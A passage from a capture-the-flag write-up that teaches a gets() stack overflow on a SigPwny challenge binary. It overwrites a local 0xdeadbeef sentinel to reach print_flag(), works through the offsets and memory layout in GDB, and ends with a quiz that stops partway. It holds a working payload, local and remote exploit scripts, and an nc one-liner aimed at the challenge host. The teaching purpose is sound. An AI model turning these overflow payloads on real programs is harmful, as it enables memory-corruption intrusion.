





# SigPwny — 0-Overflow Challenge

A second data-only stack overflow, built around the exact same core idea as its sibling challenge —
corrupt a local variable, not the return address — but with one extra layer of subtlety: the target
value here is a *specific* sentinel (`0xdeadbeef`), not a plain zero, and `gets()`'s own trailing NUL
terminator ends up doing part of the overwriting work for us. Understanding *why* a two-byte change
(one attacker-chosen byte plus one free NUL byte) is both necessary and sufficient is the real content
of this write-up.

| | |
|---|---|
| **CTF** | SigPwny |
| **Category** | PWN / Binary Exploitation |
| **Vulnerability** | Stack buffer overflow (`gets()`) |
| **Technique** | Data-only attack — local variable overwrite |
| **Arch** | x86-64, PIE enabled |
| **Difficulty** | Beginner |
| **Author:** Gantosay |

---

## 1. Challenge Overview

The program asks for a name, then checks whether a variable called `number` still equals its original
value, `0xdeadbeef`. Change it to literally anything else, and the flag prints. As with its sibling
challenge, there's no return-address overwrite, no shellcode, and no ROP chain required — the entire
exploit is a **data-only attack**: corrupt the value a branch depends on, and let the program's own
existing logic do the rest.

---

## 2. Source Code

```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>

void setup() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void print_flag() {
    char c;
    FILE *f = fopen("flag.txt", "r");

    while ((c = fgetc(f)) != EOF)
        putc(c, stdout);
}

int main() {
    char name[40];
    uint64_t number = 0xdeadbeef;

    setup();

    puts("Welcome to the overflow challenge!");
    puts("If you can change the number to something other than 0xdeadbeef, you win!");
    puts("What's your name?");

    gets(name);

    if (number != 0xdeadbeef) {
        print_flag();
    }
    else {
        printf("The number is 0x%lx right now.\nTry again!\n", number);
    }

    return 0;
}
```

### 2.1 What's different from the sibling challenge, and what isn't

| Aspect | Sibling challenge | This challenge |
|---|---|---|
| Buffer size | `char name[32]` | `char name[40]` |
| Target variable's initial value | `0` | `0xdeadbeef` (a recognizable, deliberately "magic-looking" sentinel) |
| Win condition | `number != 0` (any non-zero value wins) | `number != 0xdeadbeef` (anything *other than this specific value* wins) |
| Root cause | `gets(name)` — identical | `gets(name)` — identical |
| Exploitation technique | Data-only overwrite of a local variable | Data-only overwrite of a local variable — same technique |

The mechanism is identical; what changes is the arithmetic. Because the target condition here is
"not-equal-to-a-specific-value" rather than "not-equal-to-zero," it's worth being precise about exactly
how little needs to change to satisfy it — which turns out to still be just one or two bytes, but the
reasoning for *why* is more interesting than in the all-zero case, because `0xdeadbeef`'s bytes aren't
all identical to begin with.

### 2.2 Why `gets()` is dangerous, stated at the signature level

```c
char *gets(char *s);
```

`gets()` takes **only a destination pointer** — there is no corresponding length parameter anywhere in
its signature. It has no mechanism to know, and therefore no mechanism to enforce, how large the buffer
it's writing into actually is. It will read every byte up to the next newline character, no matter how
long that line is, and write every one of them into `name`, oblivious to the fact that `name` is only 40
bytes. This isn't a matter of `gets()` being used carelessly — it's a function with *no possible correct
usage* against untrusted input of unbounded length, which is exactly why it was removed outright from the
C11 standard rather than merely deprecated. The fix is always the same:

```c
fgets(name, sizeof(name), stdin);   // bounded: reads at most sizeof(name)-1 bytes
```

---

## 3. The Exploitation Goal, Precisely

```c
if (number != 0xdeadbeef) {
    print_flag();
}
```

Initially `number = 0xdeadbeef`. The entire challenge reduces to: **make the 8-byte value stored at
`number`'s stack location differ from `0xdeadbeef` in at least one bit**, by any means, before this
comparison executes. We never need to control `RIP`, never need a leaked address (notably, even though
this binary is PIE-enabled — see §7 — nothing about this attack depends on absolute addresses at all), and
never need to touch the saved return address.



Our strategy, at a high level:

1. Fill the entire 40-byte `name` buffer.
2. Continue writing past its boundary.
3. Let the next byte(s) land on `number`'s own memory region, changing at least one of its 8 bytes.
4. Let `gets()`'s own implicit NUL terminator do whatever additional overwriting it's going to do
   regardless (more on this below — it's not optional, and it's worth understanding precisely).
5. Let the program's existing `if` statement do the rest.

---

## 4. Disassembling `main`

```bash
$ gdb -q ./challenge
(gdb) info functions
```

```
main()
print_flag()
setup()
gets@plt
```

The binary isn't stripped, so every symbol is directly visible — no guessing required about which
function is which.

### 4.1 Full relevant disassembly

```asm
0x12c7 <+0>:   endbr64
0x12cb <+4>:   push   %rbp
0x12cc <+5>:   mov    %rsp,%rbp
0x12cf <+8>:   sub    $0x30,%rsp

0x12d3 <+12>:  mov    $0xdeadbeef,%eax
0x12d8 <+17>:  mov    %rax,-0x8(%rbp)

; ... setup(), banner puts() calls omitted ...

0x1313 <+76>:  lea    -0x30(%rbp),%rax
0x1317 <+80>:  mov    %rax,%rdi
0x131a <+83>:  call   gets@plt

0x131f <+88>:  mov    $0xdeadbeef,%eax
0x1324 <+93>:  cmp    %rax,-0x8(%rbp)
0x1328 <+97>:  je     0x1336 <main+111>

0x132a <+99>:  mov    $0x0,%eax
0x132f <+104>: call   0x126e <print_flag>

; ... else-branch printf() omitted ...

0x1351 <+138>: mov    $0x0,%eax
0x1356 <+143>: leave
0x1357 <+144>: ret
```

(Addresses here carry a PIE-load-base prefix in GDB's actual output, e.g. `0x5555555552c7`; the short
forms above are the function-relative offsets GDB's `<+N>` annotations give directly, which is all that
matters since — as established in §3 — this exploit only ever needs `rbp`-relative offsets, never
absolute addresses.)

### 4.2 Stack frame and `number`'s initializer

```asm
sub    $0x30,%rsp
```

Reserves 48 bytes of local stack space for this frame — note immediately that this is **not** `name`'s
size (40 bytes); it's the *total* frame footprint, covering `name`, `number`, and whatever padding the
compiler chose to insert.

```asm
mov    $0xdeadbeef,%eax
mov    %rax,-0x8(%rbp)
```

This is `number`'s initializer, and it pins its location unambiguously:

```
number = [rbp - 0x8]
```

One subtlety worth noticing: the immediate load is `mov $0xdeadbeef, %eax` — a 32-bit move into `%eax` —
and because writing a 32-bit sub-register on x86-64 always zero-extends into the full 64-bit register,
the subsequent `mov %rax, -0x8(%rbp)` stores the full, zero-extended 64-bit value `0x00000000deadbeef`
into `number`'s 8 bytes. This is why `number`'s upper 4 bytes start out as all-zero, which matters
directly for the little-endian analysis in §6.

### 4.3 Locating `name`

```asm
lea    -0x30(%rbp),%rax
mov    %rax,%rdi
call   gets@plt
```

`%rdi` holds the first (and only) argument to `gets()` at the moment it's called — the destination
buffer address. Tracing back: `%rax` is loaded with `rbp - 0x30`, then copied unchanged into `%rdi`. So:

```
name = [rbp - 0x30]
```

### 4.4 The comparison

```asm
mov    $0xdeadbeef,%eax
cmp    %rax,-0x8(%rbp)
je     <failure path>
```

Loads `0xdeadbeef` (again zero-extended to a full 64-bit `0x00000000deadbeef` in `%rax`) and compares it
against the 8 bytes at `number`'s location. Equal → jump to the "try again" branch. Not equal → fall
through into the `call print_flag` that follows.



---

## 5. Calculating the Offset

Two known `rbp`-relative offsets:

```
name   = [rbp - 0x30]
number = [rbp - 0x08]
```

```
0x30 - 0x08 = 0x28 = 40 (decimal)
```

**Offset from the start of `name` to the start of `number`: 40 bytes** — which, notably, is also
precisely the *declared size* of `name` itself (`char name[40]`) in this particular challenge. That
numerical coincidence is worth flagging explicitly so it isn't mistaken for a general rule: it happens
here because the compiler placed `number` with exactly zero padding gap directly after `name`'s 40
bytes, in this specific build. It is **not** safe to assume "offset always equals declared buffer size"
in general — the sibling challenge (`char name[32]`, offset 40 bytes, an 8-byte padding gap in between)
is a direct counterexample using the exact same source-code pattern, just a different buffer size and a
different compiler layout decision. The only reliable way to know the real offset, in either case, is to
read it from the disassembly, which is exactly what §4 just did.

---

## 6. Little-Endian Mechanics — Why This Overwrite Needs Care

This is the part of the challenge that rewards slowing down, because the target value isn't a tidy
all-zero pattern this time.

### 6.1 The initial byte layout

`number`'s full 64-bit value is `0x00000000deadbeef`. Written out byte-by-byte in **memory address
order** (lowest address first, as x86-64's little-endian convention stores it):

```
address:     [rbp-0x8] [rbp-0x7] [rbp-0x6] [rbp-0x5] [rbp-0x4] [rbp-0x3] [rbp-0x2] [rbp-0x1]
byte value:     ef        be        ad        de        00        00        00        00
```

Notice the ordering: the *last* two hex digits of `0xdeadbeef` (`ef`) sit at the *lowest* address, and
the sequence reads backward relative to how a human reads the hex literal `0xdeadbeef` left to right.
This is the standard little-endian "reverse the byte order" rule, applied mechanically.

### 6.2 What the overflow actually writes

Our payload fills `name`'s 40 bytes with `'A'` padding, then sends one more character (say, `'B'`, ASCII
`0x42`) before the terminating newline:

```python
payload = b"A" * 40 + b"B\n"
```

But there's a detail that's easy to overlook: **`gets()` doesn't just stop at the newline — it discards
the newline itself and writes a NUL byte (`0x00`) immediately after the last character it read**, to
properly terminate the C string it's building. So the *actual* sequence of bytes landing in memory,
beyond the 40 `'A'` characters, is:

```
'B'  (0x42)   <- our explicit character
'\0' (0x00)   <- gets()'s own implicit string terminator, NOT something we sent as a literal byte
```

That's **two** bytes written past the 40-byte padding, not one — and both of them land inside `number`'s
8-byte region, since `number` begins exactly at the 41st byte of the overflow.



### 6.3 Resulting bytes and value

Before:

```
ef be ad de 00 00 00 00
```

After (byte 0 → our `'B'`, byte 1 → `gets()`'s own NUL, bytes 2–7 unchanged):

```
42 00 ad de 00 00 00 00
```

Reading that back as one little-endian 64-bit integer — reversing the byte order again, back into the
human-readable hex-literal direction:

```
number = 0x00000000dead0042  =  0xdead0042
```

Since `0xdead0042 != 0xdeadbeef`, the condition is satisfied, and `print_flag()` runs.

**The key insight this walkthrough adds over a naive "just append one byte" mental model:** we only
*explicitly* chose one byte (`'B'`), but *two* bytes of `number` actually changed — because `gets()`'s own
mandatory string-termination behavior is not something we get to opt out of. Any successful `gets()`
overflow into this variable will always carry that extra, free NUL byte right along with whatever
character we chose to send, landing on the byte immediately after it.

---

## 7. Binary Protections — and Which Ones Actually Matter Here

```
$ pwn checksec --file=challenge
    Arch:      amd64-64-little
    RELRO:     Full RELRO
    Stack:     No canary found
    NX:        NX enabled
    PIE:       PIE enabled
    SHSTK:     Enabled
    IBT:       Enabled
    Stripped:  No
    Debuginfo: Yes
```

This is a noticeably more hardened checksec profile than the sibling challenge's — full RELRO, PIE, and
even **Intel CET** (`SHSTK`/`IBT`, both modern hardware-assisted control-flow protections) are all
present. It's worth walking through each one specifically, because the honest answer for several of them
is "present, but irrelevant to this particular exploit" — and understanding *why* each one is irrelevant
is more instructive than simply noting that the exploit still works.

| Protection | What it actually does | Relevant here? |
|---|---|---|
| **Full RELRO** | Makes the GOT read-only after the dynamic linker finishes relocating it, preventing GOT-overwrite attacks | **No** — this exploit never touches the GOT at all |
| **No Canary** | A stack canary would be checked right before a function's epilogue, to catch corruption of data between the canary and the return address | **Effectively no**, for the same reason as the sibling challenge: `print_flag()` is reached before `main` ever gets to its epilogue, so even a canary-protected build would behave identically here |
| **NX Enabled** | Prevents executing code from writable, non-executable memory (the stack, the heap) | **No** — no shellcode is involved anywhere in this exploit |
| **PIE Enabled** | Randomizes the binary's (and its libraries') load base address on each run | **No** — critically, this exploit never uses a single absolute address anywhere; every address of interest (`name`, `number`) is expressed purely as an `rbp`-relative offset, which stays exactly `0x28` apart regardless of where the binary happens to load on any given run |
| **SHSTK (Shadow Stack)** | Intel CET hardware feature: maintains a second, hardware-protected copy of return addresses; `ret` validates the popped return address against this shadow copy, detecting if it was tampered with | **No** — SHSTK specifically guards *return addresses*. This exploit never writes to the return address at all, so there is nothing for the shadow stack to detect or protect against here |
| **IBT (Indirect Branch Tracking)** | Intel CET hardware feature: requires indirect `call`/`jmp` targets to land on an `endbr64` instruction, mitigating certain JOP/COP-style attacks | **No** — this exploit performs no indirect calls or jumps of its own; it doesn't redirect control flow anywhere, it only edits data in place |
| **Debug Info** | Symbols and source-line information retained in the binary | Not a security mitigation at all, but **very useful** for this specific analysis — it's why GDB could resolve `main+88`, `print_flag`, etc. directly rather than requiring us to work purely from raw offsets |

**The general principle this table illustrates:** every mitigation listed here defends against a specific
*category* of attack technique (GOT corruption, stack-smashing-to-RIP, code injection, address-guessing,
return-address tampering, indirect-branch redirection). A data-only attack that only ever reads and
writes an ordinary local variable, and never attempts any of those six specific things, simply never
triggers any of these defenses — not because the defenses are broken or misconfigured, but because
they're watching for a different threat model entirely. This is precisely why checksec's output, however
impressively hardened it looks, is never a substitute for actually understanding what a given exploit
technique does and doesn't touch.

---

## 8. Setting a Breakpoint and Verifying With GDB

### 8.1 Building the payload

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40+b"B\n")' > payload.bin
xxd payload.bin
```

```
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 420a                 AAAAAAAAB.
```

42 bytes total: 40 `'A'`s, one `'B'`, one newline (the NUL that also matters is added by `gets()` itself
at runtime, not present in this file — see §6.2).

### 8.2 Breaking immediately after `gets()` returns

```asm
0x131a <main+83>: call gets@plt
0x131f <main+88>: mov  $0xdeadbeef,%eax   <-- break HERE
```

```gdb
(gdb) break *main+88
(gdb) run < payload.bin
```

This lands right after the overflow has fully happened, but before the comparison that decides the
program's fate — the ideal vantage point to inspect the damage before the program reacts to it.

### 8.3 Reading the variable, two ways

```gdb
(gdb) p/x number
$1 = 0xdead0042
```

```gdb
(gdb) x/8bx &number
0x7fffffffe328: 0x42  0x00  0xad  0xde
0x7fffffffe328+4:     0x00  0x00  0x00  0x00
```

Both confirm §6's prediction exactly: byte 0 is our `'B'` (`0x42`), byte 1 is `gets()`'s own NUL
terminator (`0x00`), and bytes 2 through 7 (`ad de 00 00 00 00`) are the original, untouched remainder of
`0xdeadbeef`'s upper bytes.

### 8.4 Independently re-deriving the offset from live addresses

```gdb
(gdb) p/x &name
$2 = 0x7fffffffe300
(gdb) p/x &number
$3 = 0x7fffffffe328
```

```
0x7fffffffe328 - 0x7fffffffe300 = 0x28 = 40
```

Matches the static, disassembly-derived offset from §5 exactly — two independent methods landing on the
same number.

### 8.5 A controlled experiment: changing the overwrite byte

Re-running with `b"A"*40 + b"C\n"` instead of `b"A"*40 + b"B\n"` (`'C'` = `0x43`):

```gdb
(gdb) p/x number
$1 = 0xdead0043
```

Confirms directly, by observation rather than inference alone, that the first overwritten byte is under
full attacker control — whichever character follows the 40-byte padding becomes `number`'s new
least-significant byte, verbatim.

### 8.6 A second controlled experiment: omitting the extra character entirely

Re-running with just `b"A"*40 + b"\n"` — no explicit `'B'` or `'C'`, only the padding and a newline:

```
Before: ef be ad de 00 00 00 00
After:  00 be ad de 00 00 00 00
Result: 0xdeadbe00
```

**Even with zero attacker-chosen bytes beyond the padding, `number` still changes** — because `gets()`'s
own NUL terminator alone lands on `number`'s first byte and is enough, by itself, to flip
`0xdeadbeef`'s low byte from `0xef` to `0x00`, which already satisfies `!= 0xdeadbeef`. This is the
single most important experimental confirmation in this write-up: it proves the NUL terminator isn't a
minor implementation detail worth a footnote — on its own, with no other input at all beyond the padding,
it's already a complete, working exploit for this specific win condition.

---

## 9. Registers at the Breakpoint

```gdb
(gdb) info registers rbp rsp rip
rbp  0x7fffffffe330
rsp  0x7fffffffe300
rip  0x55555555531f  <main+88>
```

| Register | Role | Observed value here |
|---|---|---|
| `RBP` | Frame/base pointer — the reference point every local variable offset in this write-up is measured from | `0x7fffffffe330` |
| `RSP` | Stack pointer — current top of stack; notice it matches `name`'s own address exactly, since `name` is the lowest-addressed local in this frame | `0x7fffffffe300` |
| `RIP` | Instruction pointer — the next instruction to execute; matches exactly where the breakpoint was set | `0x55555555531f` (`main+88`) |

### Saved RBP and the return address, inspected directly

```gdb
(gdb) x/8gx $rbp
0x7fffffffe330: 0x0000000000000001  0x00007ffff7dafd90
0x7fffffffe340: 0x0000000000000000  0x00005555555552c7
...
```

| Location | Meaning | Observed value |
|---|---|---|
| `[RBP]` | Saved RBP | `0x1` |
| `[RBP+8]` | Return address (of `main`, not of `gets()` — `gets()` has already returned by this point in execution) | `0x00007ffff7dafd90` |

Both values sit comfortably past `number`'s own location (`[rbp-0x8]`) and are never touched by this
exploit's 42-byte payload — the overflow stops well short of reaching them, by design, since reaching
them was never the goal.

---

## 10. The Exploit

### 10.1 Local testing script, built without a framework dependency

Since this is purely an input-crafting exercise against local `stdin`, the standard library's
`subprocess` module is all that's needed — no `pwntools` required for this stage.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#
# SigPwny - Overflow Challenge (local test harness)
#
# gets(name) has no bounds checking. name[40] sits exactly 40 bytes
# before the target variable `number` -- see write-up section 5. The
# win condition is `number != 0xdeadbeef`, so changing even a single
# byte away from the original 0xdeadbeef is already sufficient; this
# script sends one explicit overwrite byte ('B') plus relies on
# gets()'s own implicit NUL terminator for the second changed byte
# (see write-up section 6 for exactly why both matter).

import subprocess

BINARY = "./challenge"

OFFSET = 40  # bytes from the start of name[] to the start of number

# 'B' (0x42) explicitly overwrites number's first byte; gets()'s own
# NUL terminator, written automatically right after it, overwrites the
# second byte -- together, more than enough to differ from 0xdeadbeef.
payload = b"A" * OFFSET + b"B\n"


def run_local():
    process = subprocess.Popen(
        [BINARY],
        stdin=subprocess.PIPE,
        stdout=subprocess.PIPE,
        stderr=subprocess.PIPE,
    )

    output, error = process.communicate(payload, timeout=10)

    print(output.decode(errors="replace"))
    if error:
        print("[stderr]", error.decode(errors="replace"))


if __name__ == "__main__":
    run_local()
```

### 10.2 Remote exploit script, built the explicit way

For the actual remote target, a direct socket-based script — written with clearly separated connect /
send / receive stages, rather than collapsing everything into a one-liner — matches how this kind of
straightforward, single-payload exploit would typically have been structured before reaching for a
heavier framework:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#
# SigPwny - Overflow Challenge (remote exploit)

import socket
import sys

HOST = "chal.sigpwny.com"
PORT = 1337          # replace with the actual assigned port for this challenge

OFFSET = 40

# One explicit overwrite byte; gets()'s own NUL terminator supplies the
# second changed byte automatically (see write-up section 6).
OVERWRITE_BYTE = b"B"

payload = b"A" * OFFSET + OVERWRITE_BYTE + b"\n"


def build_connection(host, port, timeout=10):
    sock = socket.create_connection((host, port), timeout=timeout)
    return sock


def send_payload(sock, data):
    sock.sendall(data)


def read_all(sock, chunk_size=4096):
    response = b""
    while True:
        chunk = sock.recv(chunk_size)
        if not chunk:
            break
        response += chunk
    return response


def main():
    print(f"[+] Connecting to {HOST}:{PORT}")
    try:
        sock = build_connection(HOST, PORT)
    except OSError as error:
        print(f"[-] Connection failed: {error}")
        sys.exit(1)

    with sock:
        print(f"[+] Connected. Sending payload ({len(payload)} bytes):")
        print(f"      {len(payload) - len(OVERWRITE_BYTE) - 1} bytes of padding")
        print(f"      1 overwrite byte: {OVERWRITE_BYTE!r}")
        print(f"      1 trailing newline")

        send_payload(sock, payload)

        print("[+] Payload sent. Reading response...")
        response = read_all(sock)

        print("\n[+] Server response:")
        print(response.decode(errors="replace"))


if __name__ == "__main__":
    main()
```

### 10.3 Running either script

```bash
# Local test, no network required
python3 local_test.py

# Remote
python3 exploit.py
```

Or, for the quickest possible manual check, the entire exploit collapses to a single piped command:

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40+b"B\n")' | nc chal.sigpwny.com 1337
```

---

## 11. Complete Exploitation Flow



---

## 12. Data-Only Attack vs. Control-Flow Hijacking — Restated for This Challenge

The same conceptual split from the sibling challenge applies here, with the added wrinkle that this
binary's protections (PIE, full RELRO, CET) are specifically the kinds of defenses that matter most
*against control-flow hijacking* — which is exactly why none of them interfered with this attack at all.



In this challenge specifically, we modify `uint64_t number` from `0xdeadbeef` to `0xdead0042`, and the
program's **own, pre-existing** `if (number != 0xdeadbeef)` branch evaluates differently as a direct
result — not because we redirected `RIP`, not because we built any chain of gadgets, and not because any
of PIE/SHSTK/IBT/RELRO failed to do their jobs. They simply were never in this attack's path at all.

---

## 13. Key Takeaways

- **A specific sentinel value (`0xdeadbeef`) is no harder to defeat than a plain zero** — the win
  condition only requires *any* bit to differ, and because `gets()` always adds its own NUL terminator
  immediately after whatever you send, you get at least one, often two, changed bytes "for free" from a
  minimal payload.
- **`gets()`'s NUL terminator is not a footnote — it's an active part of the exploit.** Section 8.6
  demonstrates this concretely: with *zero* explicitly chosen overwrite bytes beyond the padding, the
  terminator alone already satisfies this specific win condition. Any write-up that treats the trailing
  NUL as incidental is missing half of what actually happens in memory.
- **Buffer size and the offset-to-the-next-variable are not always the same number, even though they
  happened to coincide here.** This challenge's 40-byte buffer and 40-byte offset matching is a
  coincidence of this particular compilation, not a rule — contrast directly with the sibling challenge,
  where a 32-byte buffer produced a 40-byte offset due to an 8-byte padding gap. Always verify via
  disassembly, never assume.
- **A hardened checksec profile (PIE, full RELRO, SHSTK, IBT) defends against control-flow hijacking
  specifically — not against data corruption in general.** Every one of those mitigations is watching for
  a different threat model than "an ordinary local variable got overwritten," which is precisely why none
  of them had any bearing on this exploit's success.
- **PIE's randomization is irrelevant to attacks that only ever use `rbp`-relative offsets.** The distance
  between `name` and `number` is a property of the compiled function's own layout, fixed at compile time —
  it has nothing to do with where in memory the whole binary happens to load on a given run, which is the
  only thing PIE actually randomizes.
- **Experimentally verifying a claim (what happens with no extra byte at all, §8.6) is stronger evidence
  than reasoning about it from the source alone.** It's one thing to predict that a NUL terminator lands
  somewhere; confirming the predicted byte values directly in a debugger removes any doubt about off-by-one
  errors in that reasoning.

---

## 14. Quiz — Test Yourself

**Q1.** The offset from `name` to `number` in this challenge is 40 bytes, and `name` is also declared as
exactly 40 bytes (`char name[40]`). Does this mean buffer size and inter-variable offset are always the
same number? Use the sibling "Deprecated Stack Overflow" challenge to justify your answer.

<details>
<summary>Answer</summary>

**No — this is a coincidence specific to how this particular binary was compiled, not a general rule.**
The sibling challenge is a direct counterexample using the exact same source-code pattern: there, `name`
is declared as 32 bytes, but the actual offset to `number` (measured from the disassembly: `name =
[rbp-0x30]`, `number = [rbp-0x8]`) is 40 bytes — an 8-byte gap exists because the compiler inserted
padding between the two variables in that build. In this challenge, by contrast, the compiler happened to
place `number` immediately after `name`'s 40 bytes with zero padding gap, so the buffer size and the
offset numerically match. The only way to know which situation you're in for any given binary is to
disassemble it and read the actual `rbp`-relative offsets — declared buffer size alone never guarantees
anything about where the next variable sits.
</details>

---

**Q2.** Explain precisely why sending `b"A"*40 + b"\n"` (forty padding bytes and a bare newline, with no
explicit overwrite character at all) is still enough to make this specific exploit succeed, even though
no attacker-chosen byte was ever placed on `number`'s memory region.

<details>
<summary>Answer</summary>

Because `gets()` doesn't just stop reading at the newline — it **discards the newline and writes a NUL
byte (`0x00`) immediately after the last character it actually read**, to properly terminate the C string
it's constructing. Since the 40 `'A'` characters exactly fill `name`'s buffer with nothing left over, that
implicit NUL terminator is the very next byte written — landing precisely on `number`'s first (lowest
address) byte, since `number` begins immediately after `name` in this binary's layout (§5).

`number`'s original low byte was `0xef` (from `0xdeadbeef`); overwriting it with `0x00` produces
`0xdeadbe00`, which already satisfies `number != 0xdeadbeef` — the comparison only requires *some*
difference, and a `0xef → 0x00` low-byte change is more than sufficient on its own. So the "exploit" in
this specific case is really just "overflow exactly up to the boundary and let `gets()`'s own mandatory
termination behavior do 100% of the actual overwriting" — no attacker-chosen character is strictly
necessary for *this particular* win condition, though sending one (as the main exploit does) makes the
resulting value more predictable and demonstrable.
</details>

---

**Q3.** If the win condition had instead been `if (number == 0x41414141)` (requiring an *exact* specific
value rather than merely "not equal to the original"), would the simple `b"A"*40 + b"B\n"` style payload
still work, or would the exploit need to be constructed differently? Explain what would change.

<details>
<summary>Answer</summary>

**It would need to be constructed very differently**, because "not equal to X" and "equal to a specific
different value Y" are fundamentally different levels of precision to achieve. The current exploit
succeeds with minimal precision — changing even one bit anywhere in `number`'s 8 bytes away from
`0xdeadbeef` is sufficient, which is why a single somewhat-arbitrary overwrite byte (plus `gets()`'s own
NUL) works without needing to control every byte exactly.

Hitting an *exact* target value like `0x41414141`, by contrast, requires controlling **every byte that
needs to differ from the variable's current/default value**, precisely. In practice this means: you'd
need to overflow past the buffer with exactly the right bytes to set `number`'s low 4 bytes to
`0x41414141` specifically (which, conveniently, is literally four `'A'` characters — `0x41` is `'A'`'s
ASCII value — so you'd actually want your overflow's 41st through 44th bytes to be four more `'A'`
characters, not a `'B'`), while also ensuring the upper 4 bytes end up as `0x00000000` (which they already
are by default, provided you don't overflow far enough to disturb them, and provided you account for
where `gets()`'s own terminator byte would land if your input line ends exactly there). The general
lesson: an "anything but X" condition tolerates sloppy, minimal-precision overwrites; an "exactly Y"
condition requires byte-exact control over every position that must change, and explicit awareness of
where any automatically-added bytes (like a NUL terminator) will land relative to your intended value.
</details>

---

**Q4.** The checksec output for this binary shows PIE (position-independent executable) enabled, unlike
the sibling challenge. Explain concretely why PIE being enabled here had zero practical effect on this
exploit's reliability or construction.

<details>
<summary>Answer</summary>

PIE randomizes **where in the address space the entire binary (and its segments) gets loaded** on each
individual run — meaning absolute addresses like "`main` is at `0x5555555552c7`" will be different every
single time the program executes. This specifically defeats techniques that need to hardcode or compute
an absolute address — classic `ret2win`-style exploits that overwrite a return address with a specific
function's absolute address, for instance, become unreliable under PIE unless the attacker can first leak
the actual load base.

This exploit, however, **never once uses or needs an absolute address anywhere in its construction**.
